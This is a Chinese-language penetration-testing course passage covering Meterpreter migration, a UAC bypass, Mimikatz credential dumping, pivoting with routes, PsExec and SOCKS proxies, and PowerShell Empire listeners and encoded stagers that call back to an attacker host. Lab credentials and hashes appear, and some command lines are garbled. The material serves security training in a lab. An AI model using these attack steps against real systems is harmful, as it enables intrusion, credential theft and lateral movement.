在执行诸如键盘记录等操作时，重要的是要考虑当前 `meterpreter` 会话的上下文。当我们利用 `SyncBreeze` 应用程序时，我们获得了在 `NT SYSTEM` 用户上下文中运行的反向 `shell`。为了捕获普通用户的击键，我们必须将我们的 `shell` 进程迁移到我们要目标的用户上下文。

让我们讨论一下更改上下文的过程。

### 22.5.2 迁移进程

当我们入侵一台主机时，我们的 `meterpreter` `payload` 在我们攻击的应用程序进程内执行。如果受害者关闭该进程，我们对机器的访问也会随之关闭。

使用 `migrate` 命令，我们可以将 `meterpreter` 的执行迁移到不同的进程中。

为此，我们首先运行 `ps` 来查看所有正在运行的进程，然后选择一个进程，例如 `explorer.exe`，并发出 `migrate` 命令。

```
meterpreter > ps
```

```
Process List

============

PID    PPID    Name                                     Arch  Session  User  Path

---    ----    ----                                     ----  -------  ----  ----

3116   904     WmiPrvSE.exe

3164   3568    shell_reverse_msf_encoded.exe x86 1     corp\offsec C:\Users\Offsec\.corp\Desktop\shell_reverse_msf_encoded.exe

3224   808     msdtc.exe

3360   1156    shost.exe                                  x86   1      corp\offsec C:\Windows\System32\shost.exe

3544   808     syncbrs.exe

3568   1960    explorer.exe                               x86   1      corp\offsec C:\Windows\explorer.exe

3820   808     svchost.exe                                x86   1      corp\offsec C:\Windows\System32\svchost.exe

...
```

```
meterpreter > migrate 3568
[*] Migrateing from 3164 to 3568...
[*] Migration completed successfully.
```


请注意，我们只能将进程迁移到与当前进程具有相同或更低权限和完整性级别的进程中。在 `Sync Breeze` 的情况下，由于我们运行的是具有最大权限（`NT_SYSTEM`）的 `Meterpreter` 载荷，因此我们的选择非常丰富，我们可以通过选择相应的目标进程将 `shell` 迁移到不同的用户上下文中。

### 22.5.3 后利用模块

除了 `Meterpreter` 核心 `API` 中原有的命令和操作外，我们还有几个针对活动会话部署的后利用模块。由客户端攻击执行创建的会话通常只为我们提供一个非特权 `shell`。但如果目标用户是本地管理员组的成员，并且我们绕过了用户账户控制（`UAC`），我们就可以将 `shell` 提升到高完整性级别。在之前的示例中，我们将 `meterpreter` `shell` 迁移到以中等完整性运行的 `explorer.exe` 进程。在以下步骤中，我们将假设我们通过客户端攻击获取了此 `shell`。

搜索 `UAC` 绕过模块会产生不少结果。然而，由于在我们的示例中，受影响的机器是我们的 `Windows 10 Fall Creators Update` 版本机器，我们将重点放在 `bypassuac_injection_winssx` 模块上，因为它在这个版本的 `Windows` 上运行良好。我们将选择该模块并列出其选项。这显示了一个名为 `SESSION` 的单参数，即目标 `Meterpreter` 会话。使用 `set SESSION 10` 将会话设置为活动的 `Meterpreter` 会话并运行 `exploit` 本质上将通过活动会话将漏洞利用管道传输到存在漏洞的主机：

```
msf5 > use exploit/windows/local/bypassac_injection_winsxs
msf5 exploit(windows/local/bypassac_injection_winsxs) > show options
Module options (exploit/windows/local/bypassac_injection_winsxs):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   SESSION                    yes      The session to run this module on.

Exploit target:

 Id  Name
 --  ----
  0   Windows x86

msf5 exploit(windows/local/bypassac_injection_winsxs) > set SESSION 10
SESSION => 10
msf5 exploit(windows/local/bypassac_injection_winsxs) > exploit
```

```
[*] Started reverse TCP handler on 10.11.0.4:4444
[*] Windows 10 (Build 16299)., may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Part of Administrators group! Continuing...
[*] UAC is set to Default
[*] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Successfully injected payload into to process: 5800
[*] Sending stage (179779 bytes) to 10.11.0.22
[*] Meterpreter session 11 opened (10.11.0.4:4444 -> 10.11.0.22:53870)
meterpreter > 
```

除了能够将活动会话置于后台并通过其执行模块外，我们还可以使用 `load` 命令直接在活动会话中加载扩展。

一个很好的例子是 `PowerShell` 扩展，它启用 `PowerShell` 的使用。通过这个模块，我们可以执行 `PowerShell` 命令和脚本，或者启动交互式 `PowerShell` 命令提示符。在清单 801 中，我们 `load powershell` 并列出可用的子命令。

```
meterpreter > load powershell
Loading extension powershell...Success.
```


```
meterpreter > help powershell
```

```
Powershell Commands
====================

Command
------

powershell_execute  Execute a Powershell command string
powershell_import   Import a PS1 script or .NET Assemlby DLL
powershell_shell    Create an interactive Powershell prompt
```


### Listing 801 - Loading the PowerShell extension

```
作为一个例子，让我们使用 `powershell_execute` 命令通过 `$PSVersionTable.PSVersion` 全局变量获取 PowerShell 版本。
```

```
meterpreter > powershell_execute "$PSVersionTable.PSVersion"
```

[*] Command execution completed:

Major  Minor  Build  Revision

-----  -----  -----  --------

5      1      16299  248

meterpreter >

### Listing 802 - Executing a PowerShell command

```
Mimikatz 也非常有用，幸运的是，它的一个实现是作为 Meterpreter 扩展提供的。在这个例子中，我们将使用 `load kiwi` 运行该扩展。由于 mimikatz 需要 SYSTEM 权限，我们将运行 `getsystem` 从当前的高完整性 shell（在 ofsec 用户的上下文中）自动获取 SYSTEM 特权。最后，我们将使用 `creds_msv` 导出系统凭据。
```

```
meterpreter > load kiwi
```

Loading extension kiwi...

Success.

```
meterpreter > getsystem
```

...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

```
meterpreter > creds_msv
```

[*] Running as SYSTEM

[*] Retrieving msv credentials

msv credentials

===============

Username

-------

DPAPI

-----

Domain

------

NTLM

----

SHA1

----

CLIENT251$  corp  4d4ae0e7cb16d4cfe6a91412b3d80ed4  5262a3692e319ca71ac2dfdb2f758e50

2dbdf154

offsec    corp  e2b475c11da2a0748290d87aa966c327  8c77f430e4ab8acb10ead387d64011c7

6400d26e  c10c264a27b63c4e66728bfe4fbe8aab

*Listing 803 - Using mimikatz from meterpreter*

### 22.5.4 使用 Metasploit Framework 进行路由扩展

在攻陷目标之后，我们可以从该系统路由到其他目标。我们可以从 MSF 内部进行路由，这很方便，但缺乏手动路由技术的灵活性。

例如，让我们利用现有的 Meterpreter 会话枚举内部网络的 Active Directory 基础设施并路由到其他机器。

首先，我们注意到受影响的 Windows 客户端有两个网络接口。

```
C:\Users>offsec> ipconfig
```

Windows IP Configuration

Ethernet adapter Ethernet1:

Connection-specific DNS Suffix . :

Link-local IPv6 Address . . . . : fe80::49e9:5c50:265f:6600%4

IPv4 Address. . . . . . . . . . . : 192.168.1.111

Subnet Mask . . . . . . . . . . . : 255.255.255.0

Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet0:

Connection-specific DNS Suffix . :

IPv4 Address. . . . . . . . . . . : 10.11.0.22

Subnet Mask . . . . . . . . . . . : 255.255.255.0

Default Gateway . . . . . . . . . : 10.11.0.2

C:\Users>offsec.corp>

*Listing 804 - Dual interfaces on compromised client*

我们将使用 `route` 和 `add` 来创建一条通往我们发现的备用内部网络子网的路径。我们还将指定该路由适用的会话 ID：

```
msf5 > route add 192.168.1.0/24 11
```

[*] Route added

```
msf5 > route print
```

IPv4 Active Routing Table

==============================

Subnet Netmask Gateway

------ ------ -------

192.168.1.0 255.255.255.0 Session 11

*Listing 805 - Adding a new route*

创建到内部网络的路径后，我们现在可以枚举该子网。由于我们已经知道域控制器的 IP 地址，我们将使用 `portscan/tcp` 模块对其进行有限的端口扫描。

## 710

```
msf5 > use auxiliary/scanner/portscan/tcp
```

```
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
```

RHOSTS => 192.168.1.110

```
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
```

PORTS => 445,3389

```
msf5 auxiliary(scanner/portscan/tcp) > run
```

[+] 192.168.1.110:3389 - TCP OPEN

[+] 192.168.1.110:445 - TCP OPEN

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

msf5 auxiliary(scanner/portscan/tcp) >


由于我们之前发现了域控制器的有效管理员凭据，现在我们可以尝试使用 `smb/psexec` 模块转向至域控制器。我们需要指定凭据，设置 `SMBDomain`、`SMBUser` 和 `SMBPass` 的值，如下所示。

```
msf5 > use exploit/windows/smb/psexec
```

```
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
```

SMBDomain => corp

```
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
```

SMBUser => jeff_admin

```
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
```

SMBPass => Qwerty09!

```
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
```

RHOSTS => 192.168.1.110

```
msf5 exploit(windows/smb/psexec_psh) > set PAYLOAD windows/meterpreter/bind_tcp
```

PAYLOAD => windows/meterpreter/bind_tcp

```
msf5 exploit(windows/smb/psexec_psh) > set LHOST 192.168.1.110
```

LHOST => 192.168.1.110

```
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
```

LPORT => 444

```
msf5 exploit(windows/smb/psexec_psh) > exploit
```

[*] 192.168.1.110:445 - Connecting to the server...

[*] 192.168.1.110:445 - Authenticating to 192.168.1.110:445|corp as user 'jeff_admin'.

...


[*] 192.168.1.110:445 - Selecting PowerShell target

[*] 192.168.1.110:445 - Executing the payload...

[*] 192.168.1.110:445 - Service start timed out, OK if running a command or non-service executable...

[*] Started bind TCP handler against 192.168.1.110:444


[*] Sending stage (180291 bytes) to 192.168.1.110
[*] Meterpreter session 5 opened (10.11.0.4:10 -> 10.11.0.22:0 -> 192.168.1.110:444)

`meterpreter >`

### 列表 807 - 从 Metasploit 使用 PsExec

需要注意的是，添加的路由仅对已建立的连接有效。因此，域控制器上的新 shell 必须是一个绑定 shell（bind shell），这样我们才能使用 `set route` 连接到它。反向 shell 负载将无法找到返回到攻击系统的路径，因为域控制器没有为我们的网络定义路由。通过这种方式，我们能够从内部网络中的域控制器获取 meterpreter shell，否则我们无法直接到达该位置。

作为手动添加路由的替代方案，我们可以使用 `autoroute` 后渗透模块，它可以自动通过现有的 meterpreter 会话建立枢轴路由。列表 808 演示了如何调用该模块。

```
msf5 exploit(multi/handler) > use multi/manage/autoroute

msf5 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

| Name | Current Setting | Required | Description |

| --- | --- | --- | --- |

| CMD | autoadd | yes | Specify the autoroute command (Accepted: add, autorouteadd, print, delete, default) |

| NETMASK | 255.255.255.0 | no | Netmask (IPv4 as "255.255.255.0" or CIDR as "/24") |

| SESSION | | yes | The session to run this module on. |

| SUBNET | | no | Subnet (IPv4, for example, 10.10.10.0) |

msf5 post(multi/manage/autoroute) > sessions -l

Active sessions

================

| Id | Name | Type | Information | Connection |

| --- | --- | --- | --- | --- |

| 4 | meterpreter | x86/windows | NT AUTHORITY\SYSTEM @ WIN10-X86 | 10.11.0.4:5555 -> 10.11.0.22:1883 (10.11.0.22) |

msf5 post(multi/manage/autoroute) > set session 4

session => 4

msf5 post(multi/manage/autoroute) > exploit

[!] SESSION may not be compatible with this module.

[*] Running module against CLIENT251

[*] Searching for subnets to autoroute.

[*] Route added to subnet 192.168.1.0/255.255.255.0 from host’s routing table.

[*] Route added to subnet 10.11.0.0/255.255.255.0 from host’s routing table.

[*] Route added to subnet 169.254.0.0/255.255.0.0 from Fortinet virtual adapter.

```

[*] Post module execution completed
msf5 post(multi/manage/autoroute) >

*列表 808 - 调用 autoroute 模块*

我们还可以将路由与 `server/socks4a` 模块结合使用，以配置 SOCKS 代理。这使得 Metasploit Framework 外部的应用程序可以通过枢轴进行隧道传输。为此，我们首先将模块设置为使用 localhost 作为代理：

```
msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a

msf5 auxiliary(server/socks4a) > show options
```

模块选项 (`auxiliary/server/socks4a`)：

| Name | Current Setting | Required | Description |
|---|---|---|---|
| SRVHOST | 0.0.0.0 | yes | 要监听地址 |
| SRVPORT | 1080 | yes | 要监听的端口。 |

辅助操作：

| Name | Description |
|---|---|
| Proxy | |

```
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1

SRVHOST => 127.0.0.1
```

```
msf5 auxiliary(server/socks4a) > exploit -j

[*] Auxiliary module running as background job 0.

[*] Starting the socks4a proxy server
```

*列表 809 - 使用 autoroute 设置 SOCKS 代理*

现在我们可以更新 ProxyChains 配置文件（`/etc/proxychains.conf`）以利用该 SOCKS 代理。这是通过添加如列表 810 所示的配置行来实现的。

```
kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf
```

*列表 810 - 配置 ProxyChains 使用正确的端口*

最后，我们可以使用 `proxychains` 来运行 `rdesktop` 等应用程序，以从我们的 Kali Linux 系统获取到内部网络中域控制器的 GUI 访问权限。

```
kali@kali:~$ sudo proxychains rdesktop 192.168.1.110

ProxyChains-3.1 (http://proxychains.sf.net)

Autoselected keyboard map en-us

|S-chain|-->127.0.0.1:1080--><:>--192.168.1.110:3389--><>OK

ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?

|S-chain|-->127.0.0.1:1080--><:>--192.168.1.110:3389--><>OK

Connection established using SSL.

WARNING: Remote desktop does not support colour depth 24; falling back to 16
```

*列表 811 - 获取内部网络的远程桌面访问权限*

接下来，`rdesktop` 客户端打开，允许我们登录到域控制器，如图 315 所示：


我们也可以在 meterpreter 会话内部使用类似的技术进行端口转发，使用 `portfw` 命令，它将特定端口转发到内部网络。

```python
meterpreter > portfw -h
```


Usage: `portfw` [-h] [add | delete | list | flush] [args]

OPTIONS:

    -L <opt>   Forward: local host to listen on (optional). Reverse: local host to connect to.

    -R <opt>   Indicates a reverse port forward.

    -h         Help banner.

    -i <opt>   Index of the port forward entry to interact with (see the "list" command)

    -l <opt>   Forward: local port to listen on. Reverse: local port to connect to.

    -p <opt>   Forward: remote port to connect to. Reverse: remote port to listen on.

    -r <opt>   Forward: remote host to connect to.

*列表 812 - `portfw` 命令的可用选项*

我们可以创建从 `localhost` 端口 `3389` 到受感染主机（`192.168.1.110`）端口 `3389` 的端口转发，如列表 813 所示。

```python
meterpreter > portfw add -l 3389 -p 3389 -r 192.168.1.110

[*] Local TCP relay created: :3389 <> 192.168.1.110:3389
```
*列表 813 - 端口 3389 上的正向端口转发*

让我们通过 `rdesktop` 连接到 `127.0.0.1:3389` 来测试，以访问内部网络中的受感染主机。

```text
kali@kali:~$ rdesktop 127.0.0.1

Autoselected keyboard map en-us

ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized?

Connection established using SSL.

WARNING: Remote desktop does not support colour depth 24; falling back to 16
```
*列表 814 - 使用端口转发获取远程桌面访问权限*

使用这种技术，我们能够在一个通常无法从 Kali 系统到达的主机上获得远程桌面访问会话。同样，如果域控制器连接到额外的网络，我们可以创建枢轴链以到达任何主机。

## 22.5.4.1 反向

1. 使用后渗透模块和扩展，结合枢轴技术，从 Windows 10 客户端获取的 `meterpreter` shell 中枚举并攻陷域控制器。

### 22.6 Metasploit 自动化

虽然 Metasploit Framework 已经为我们自动化了相当多的内容，但我们还可以在框架内部进一步自动化重复的命令。

当我们使用负载创建独立的可执行文件或客户端攻击向量（如 HTML 应用程序）时，我们会选择负载类型、本地主机和本地端口等选项。然后在 **`multi/handler`** 模块中必须设置相同的选项。为了简化这一过程，我们可以利用 Metasploit 资源脚本。我们可以在资源脚本中使用任意数量的 Metasploit 命令。

例如，使用标准编辑器，我们将在主目录中创建一个名为 `setup.rc` 的脚本。在这个脚本中，我们将负载设置为 `windows/meterpreter/reverse_https`，并配置相关的 `LHOST` 和 `LPORT` 参数。我们还使用 `x86/shikata_ga_nai` 编码器启用阶段编码，并配置 `post/windows/manage/migrate` 模块使用 `AutoRunScript` 选项自动执行。这将导致生成的 `meterpreter` 自动启动后台 **`notepad.exe`** 进程并迁移到该进程中。最后，`ExitOnSession` 参数设置为 'false'，以确保监听器继续接受新连接，并使用 `-j` 和 `-z` 标志执行模块，以防止自动与会话交互。命令如下：

```text
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_https

set LHOST 10.11.0.4

set LPORT 443

set EnableStageEncoding true

set StageEncoder x86/shikata_ga_nai

set AutoRunScript post/windows/manage/migrate

set ExitOnSession false

exploit -j -z
```
*列表 815 - 用于设置 `multi/handler` 的 Metasploit 资源脚本*

保存脚本后，我们可以将 `-r` 标志传递给 **`msfconsole`** 来执行它，如列表 816 所示。

## 22.6.1.1 练习

- 1. 使用二级编码器和自动运行脚本创建资源脚本，并将其与 `meterpreter` 载荷配合使用。

## 22.7 总结

Metasploit 框架在渗透测试的几乎所有阶段都非常有价值，包括被动和主动信息收集、漏洞研究与开发、客户端攻击、后渗透等，还有更多。

在本模块中，我们介绍了 Metasploit 框架的一些主要功能。然而，由于模块和功能数量庞大，很容易让人迷失方向。为了巩固这些技术，我们强烈建议彻底完成本模块中的练习，并参考免费的 Offensive Security 在线课程 [`Metasploit Unleashed`](https://github.com/OffensiveSecurity/Metasploit-Unleashed)⁷¹⁹ 以获取更多深入的培训和信息。


## 23. PowerShell Empire

`Empire`⁷¹⁹ 是一个“PowerShell 和 Python 后渗透代理”，重点在于客户端利用以及对 Active Directory (`AD`) 部署的后渗透。

在 Windows 上使用 PowerShell，在 Linux 和 macOS 上使用 Python 执行利用和后渗透。`Empire` 依赖标准预安装的库和功能；执行 PowerShell 只需要 PowerShell 版本 2（自 Windows 7 起预装），Linux 和 Mac 模块需要 Python 2.6 或 2.7。

> *从历史上看，PowerShell Empire 专注于 Windows 利用，而另一个名为 `EmPyre`⁷²⁰ 的项目则针对 Mac OS X/macOS 和 Linux。在 PowerShell Empire 的第二个大版本中，这些项目合并在一起，保留了原始名称，通常简称为 Empire。PowerShell Empire 项目不再由原始开发者支持，但已创建了更新的分支版本，如 `BC-SECURITY`⁷²¹。分支版本最近发布了 3.0 版本⁷²²。*

虽然 `Empire` 似乎与 Metasploit 框架共享许多功能，但它们的本质截然不同。Metasploit 包含大量旨在获取初始访问权限的利用工具。而 `Empire` 则是设计为一种主要针对 Active Directory 环境的后渗透工具。它倾向于利用目标操作系统及其主要应用程序的内置功能。

## 23.1 安装、配置与使用

要在 Kali Linux 上安装 Empire，我们需要通过 `git clone` 从公共 GitHub 仓库克隆该项目，并运行 `install.sh` 脚本：

```bash
kali@kali:~$ cd /opt

kali@kali:/opt$ sudo git clone https://github.com/PowerShellEmpire/Empire.git

Cloning into 'Empire'...

remote: Enumerating objects: 12216, done.

remote: Total 12216 (delta 0), reused 0 (delta 0), pack-reused 12216

Receiving objects: 100% (12216/12216), 21.96 MiB | 3.22 MiB/s, done.

Resolving deltas: 100% (8312/8312), done.

kali@kali:/opt$ cd Empire/
```


⁷¹⁹ (Empire Project, 2019), https://github.com/EmpireProject/Empire
⁷²⁰ (Will Schroeder, 2016), https://www.harmj0y.net/blog/empyre/building-an-empyre-with-python/
⁷²¹ (BC Security, 2019), https://github.com/BC-SECURITY/Empire
⁷²² (BC Security, 2019), https://github.com/BC-SECURITY/Empire/tree/dev


```bash
kali@kali:/opt/Empire$ sudo ./setup/install.sh
...
```

*列表 819 - 在 Kali Linux 上安装 PowerShell Empire*

Empire 允许渗透测试人员通过共享私钥，进而共享密码，在多个服务器之间进行协作。但是，我们只安装单个实例，因此我们按 `Return` 键在密码提示符处生成一个随机密码。

```text
[>] Enter server negotation password, enter for random generation:
```

*列表 820 - 生成随机的服务器协商密码*

安装完框架后，我们可以使用名为 `empire` 的 Python 脚本启动 Empire。

```bash
kali@kali:/opt/Empire$ sudo ./empire
...
=======================================================
[Empire]  Post-Exploitation Framework
=======================================================
[Version] 2.5 | [Web] https://github.com/empireProject/Empire
=======================================================
285 modules currently loaded
0 listeners currently active
0 agents currently active
(Empire) >
```

*列表 821 - 启动 PowerShell Empire*

#### 23.1.1 PowerShell Empire 语法

我们可以使用 `help` 来列出 Empire 中可用的各种命令，包括监听器、暂存器、代理和模块。

```text
(Empire) > help
Commands
=======
agents          Jump to the Agents menu.
creds           Add/disp;ay credentials to/from the database.
exit            Exit Empire
help            Displays the help menu.
interact        Interact with a particular agent.
list            Lists active agents or listeners.
```


| 命令 | 描述 |
| :------ | :---------- |
| listeners | 与活动监听器交互。 |
| load | 从非标准文件夹加载 Empire 模块。 |
| plugin | 加载插件文件以扩展 Empire。 |
| plugins | 列出所有可用和活动的插件。 |
| preobfuscate | 预先混淆 PowerShell module_source 文件 |
| reload | 重新加载一个（或所有）Empire 模块。 |
| report | 生成报告 CSV 和日志文件：sessions.csv, credentials.csv, mas |
| reset | 重置全局选项（例如 IP 白名单）。 |
| resource | 从文件读取并执行一系列 Empire 命令。 |
| searchmodule | 搜索 Empire 模块名称/描述。 |
| set | 设置全局选项（例如 IP 白名单）。 |
| show | 显示全局选项（例如 IP 白名单）。 |
| usemodule | 使用 Empire 模块。 |
| usestager | 使用 Empire 暂存器。 |

列表 822 - 来自 `help` 命令的 Empire 选项

### 23.1.2 监听器与暂存器

我们将通过简要介绍监听器和暂存器来开始对 Empire 的探索。相当于 Metasploit 的 `multi/handler`，监听器接受来自各种 Empire 代理的入站连接。

暂存器是由 Empire 生成的短小代码片段，在受害者机器上执行并回连到监听器。它们建立受害者和攻击者之间的连接，并执行其他任务以促进分阶段载荷的传输。

要开始 Empire 会话，我们首先进入监听器上下文，然后使用 `uselister` 打印可用监听器，随后按空格键和双 Tab 键以启用 Empire 的 Tab 补全功能。

```text
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselister
  dbx  http_com    http_hop  meterpreter
  http  http_foreign http_map1 redirector
```

列表 823 - 列出监听器类型

`http` 监听器是最基本的监听器，就像 Metasploit 中的 `windows/meterpreter/reverse_http` 载荷一样，它通过一系列 HTTP GET 和 POST 请求进行通信，以模拟合法的 HTTP 流量。

> 重定向器（`redirector`）监听器也值得一提，因为它创建了一个枢轴点，使其能够通过被入侵的主机与内部网络进行通信。

一旦选择了监听器，我们可以运行 `uselister` 命令选择它，并运行 `info` 显示信息和语法：

```text
(Empire: listeners) > uselister http
(Empire: listeners/http) > info
```


名称：`HTTP[S]`
类别：`client_server`

作者：
`@harmj0y`

描述：
启动一个 `http[s]` 监听器（PowerShell 或 Python），采用 `GET/POST` 方式。

### HTTP[S] 选项

| 名称 | 是否必需 | 值 | 描述 |
|---|---|---|---|
| `KillDate` | 否 | | 监听器退出的日期 (`MM/dd/yyyy`)。 |
| `Name` | 是 | `http` | 监听器名称。 |
| `Launcher` | 是 | `powershell -NoP -sta -w 1 -enc` | 启动器字符串。 |
| `DefaultDelay` | 是 | `5` | 代理延迟/回连间隔（秒）。 |
| `DefaultLostLimit` | 是 | `60` | 退出前错过的检查次数 |
| `WorkingHours` | 否 | | 代理工作时间段 (`09:00-17:00`)。 |
| ... | | | |
| **Host** | **是** | **http://10.11.8.4:80** | **暂存区的 hostname/IP。** |
| `CertPath` | 否 | | `https` 监听器的证书路径。 |
| `DefaultJitter` | 是 | `0.0` | 代理回连间隔的抖动值 (`0.0-1.0`)。 |
| `Proxy` | 否 | `default` | 请求使用的代理 (`default`, `none`, 或其他)。 |
| ... | | | |
| `BindIP` | 是 | `0.0.0.0` | 控制服务器绑定到的 IP 地址。 |
| **Port** | **是** | **80** | **监听器的端口。** |
| `ServerVersion` | 是 | `Microsoft-IIS/7.5` | 控制服务器的服务器头。 |
| ... | | | |

*列表 824 - HTTP 监听器选项*

如上所示，虽然有很多选项，但大多数已设置好或为可选。最重要的参数是 `Host` 和 `Port`，分别用于选择监听器的本地 IP 地址或主机名以及端口号。我们可以按如下方式设置 `Host`：

```
(Empire: listeners) > set Host 10.11.9.4

(Empire: listeners) >
```

还有一些值得注意的额外设置。`DefaultDelay` 通过设置受控主机到监听器的等待回调时间间隔，试图模拟更合法的 HTTP 流量。`DefaultJitter` 通过设置 `DefaultDelay` 为随机偏移量，使流量看起来不像程序生成的。`KillDate` 将在指定日期自动终止所有受控主机上的监听器。这在渗透测试后的清理工作中特别有用。

设置好选项后，我们可以使用 `execute` 命令启动监听器，并使用 `back` 返回主监听器菜单。最后，我们可以使用 `usestager` 后跟 `Space` 和双 `Tab` 列出所有可用的暂存器。

```
(Empire: listeners/http) > execute

[*] Starting listener 'http'

* Serving Flask app "http" (lazy loading)

* Environment: production

WARNING: Do not use the development server in a production environment.

     Use a production WSGI server instead.

* Debug mode: off

[*] Listener successfully started!
```

```
(Empire: listeners/http) > back
```

```
(Empire: listeners) > usestager

multi/bash	t	osx/launcher	windows/launcher_bat

multi/launcher	osx/macho	windows/launcher_lnk

multi/macro	osx/macro	windows/launcher_sct

multi/pyinstaller	osx/pkg	windows/launcher_vbs

multi/war	osx/safari_launcher	windows/launcher_xml

osx/applescript	osx/teensy	windows/macro

osx/application	windows/bunny	windows/macroless_msword

osx/ducky	windows/dll	windows/teensy

osx/dylib	windows/ducky

osx/jar	windows/hta
```


如列表 825 所示，Empire 支持 Windows、Linux 和 OS X 的暂存器。Windows 暂存器支持标准 DLL、HTM 应用程序、Microsoft Office 宏，以及更特殊的暂存器，例如用于 USB Rubber Ducky 的 `windows/ducky`。^723

为了了解其工作原理，我们来尝试一下 `windows/launcher_bat` 暂存器。选择暂存器后，我们可以使用 `info` 命令查看选项。

```
(Empire: listeners) > usestager windows/launcher_bat

(Empire: stager/windows/launcher_bat) > info
```

**名称：** BAT 启动器

**描述：**
为 Empire 生成一个自删除的 `.bat` 启动器。

**选项：**

| 名称 | 是否必需 | 值 | 描述 |
|------|----------|-------|-------------|
| **Listener** | **是** | | **要为其生成暂存器的监听器。** |
| `OutFile` | 否 | `/tmp/launcher.bat` | 输出 `.bat` 启动器的文件路径，否则显示在屏幕上。 |
| `Obfuscate` | 否 | `False` | 开关。混淆启动器的 `powershell` 代码，使用 `ObfuscateCommand` 进行混淆类型 仅限 `powershell`。 |
| `ObfuscateCommand` | 否 | `Token\All\1,Launcher\STDIN++\12467The Invoke-Obfuscation` | 仅在 `Obfuscate` 开关为 `True` 时使用 仅限 `powershell`。 |
| `Language` | 是 | `powershell` | 要生成的暂存器语言。 |
| `ProxyCreds` | 否 | `default` | 请求使用的代理凭据 (`[domain\]username:password`) (`default`, `none`, 或其他)。 |
| `UserAgent` | 否 | `default` | 暂存器请求使用的 User-agent 字符串 (`default`, `none`, 或其他)。 |
| `Proxy` | 否 | `default` | 请求使用的代理 (`default`, `none`, 或其他)。 |
| `Delete` | 否 | `True` | 开关。运行后删除 `.bat`。 |
| `StagerRetries` | 否 | `0` | 暂存器重试连接的次数。 |

> 列表 826 - `launcher.bat` 暂存器的选项

我们可以使用 `set` 命令后跟刚刚创建的监听器名称来配置 `Listener` 参数。最后，我们将使用 `execute` 创建暂存器，如列表 827 所示。

```
Empire: stager/windows/launcher_bat) > set Listener http

(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) >
```

> 列表 827 - 创建 `bat` 暂存器

为了更好地理解我们刚刚创建的暂存器，让我们查看生成的 `launcher.bat` 文件的部分内容。

```
kali@kali:/opt/Empire$ cat /tmp/launcher.bat

@echo off

start /b powershell -noP -sta -w 1 -enc SQBGACgAJABAOAFMAVGBAHIACwBp...
```


> 列表 828 - PowerShell Empire 暂存器

该暂存器是一个 base64 编码的 PowerShell 命令字符串。这个第一阶段载荷将连接到监听器并获取剩余的 Empire 代理代码。

### 23.1.3 Empire 代理

现在我们已经启动了监听器并准备好了暂存器，我们需要在受害主机上部署一个代理。代理仅仅是由暂存器检索到的最终载荷，它允许我们执行命令并与系统交互。暂存器（在本例中为 `.bat` 文件）在执行完成后会自我删除并退出。

一旦代理在目标上运行，它将使用 HTTP GET 和 POST 请求的数据部分与监听器建立 AES 加密通信通道。

我们将首先将 `launcher.bat` 脚本复制到 Windows 10 工作站并从命令提示符中执行它。

```
C:\> C:\Windows\system32\cmd.exe
```


成功执行启动脚本后，一个初始代理呼叫将出现在我们的 Empire 会话中，如列表 829 所示：

```
(Empire: stager/windows/launcher_bat) > [+] Initial agent S2Y5XW1L from 10.11.0.22 now active (Slack)
```

列表 829 - PowerShell Empire 代理连接

接下来，我们可以使用 `agents` 命令显示所有活跃代理。

```
(Empire: stager/windows/launcher_bat) > agents

[*] Active agents:

Name Lang Internal IP Machine Name Username Process Delay

------ ---- ----------- ------------ -------- -------- -----

S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0

(Empire: agents) >
```

列表 830 - PowerShell Empire 代理连接

现在，我们可以使用 `interact` 命令后跟代理名称来与我们的代理交互并执行命令。

在这种情况下，我们将运行 `sysinfo` 以获取有关受控主机的信息（列表 831）。

```
(Empire: agents) > interact S2Y5XW1L

(Empire: S2Y5XW1L) > sysinfo

(Empire: S2Y5XW1L) > sysinfo: 0|http://10.11.0.4:80|corp\offsec|CLIENT251|10.11.0.22|Microsoft Windows 10 Pro|False|powershell|2976|powershell|5

Listener: http://10.11.0.4:80

Internal IP: 10.11.0.22

Username: corp\offsec

Hostname: CLIENT251

OS: Microsoft Windows 10 Pro
```


```
High Integrity:	0

Process Name:	powershell

Process ID:	2976

Language:	 powershell

Language Version: 5

...
```

*清单 831 - 执行 sysinfo 命令*

请注意，该命令不会立即返回。这种延迟是由 `DefaultDelay` 参数引起的，该参数当前设置为默认值五秒。

`help` 命令（清单 832）显示了所有可用命令，例如 `upload`、`download` 和 `screenshot`，这些命令的含义不言自明。此外，我们可以使用 `shell` 执行命令，并使用 `spawn` 在同一主机上创建额外的代理。

```
(Empire: S2Y5XWIL) > help

Agent Commands

===============

agents          Jump to the agents menu.

back            Go back a menu.

bypassuac       Runs BypassUAC, spawning a new high-integrity agent for a listener.

clear           Clear out agent tasking.

creds           Display/return credentials from the database.

download        Task an agent to download a file.

exit            Task agent to exit.

help            Displays the help menu or syntax for particular commands.

info            Display information about this agent

injectshellcode Inject listener shellcode into a remote process. Ex. injectshellcode

jobs            Return jobs or kill a running job.

kill            Task an agent to kill a particular process name or ID.

